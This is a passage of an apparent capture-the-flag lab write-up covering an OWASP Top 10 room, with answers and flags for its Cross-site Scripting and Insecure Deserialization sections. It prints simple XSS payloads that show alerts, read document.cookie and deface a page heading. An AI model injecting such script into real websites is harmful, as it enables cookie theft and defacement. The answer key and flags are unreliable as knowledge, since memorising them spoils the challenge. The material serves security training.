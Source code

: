 	**thm{4b9513968fd564a87b28aa1f9d672e17}**
	## 7. Cross-site Scripting
- Navigate to http://10.10.247.239/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

	`<script>alert("Hello")</script>`
	
	**ThereIsMoreToXSSThanYouThink**
- On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

	`<script>alert(window.location.hostname)</script>`
	
	**ReflectiveXss4TheWin**
- Go to stored xss and add a comment and see if you can insert some of your own HTML.

	`<h1>Hello</h1>`
	
	**HTML_T4gs**
- On the same page, create an alert popup box appear on the page with your document cookies.
	
	`<script>alert(document.cookie)</script>`
	
	**W3LL_D0N3_LVL2**
- Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

	`<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`
	
	**websites_can_be_easily_defaced_with_xss**
## 8. Insecure Deserialization
-  Who developed the Tomcat application?
	
	**The Apache Software Foundation**
	
- What type of attack that crashes services can be performed with insecure deserialization?

	**Denial of Service**
### 8.1. Insecure Deserialization - Objects
A prominent element of object-oriented programming (OOP), objects are made up of two things:
> State

>Behaviour

- If a dog is sleeping, this would be :

	**A behaviour**
### 8.2 Insecure Deserialization - Deserialization 
Serialisation is the process of converting objects used in programming into simpler, compatible formatting for transmitting between systems or networks for further processing or storage.

-  What is the name of the base-2 formatting that data is sent across a network as?  

	**Binary**
### Insecure Deserialization - Cookies
- If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?
	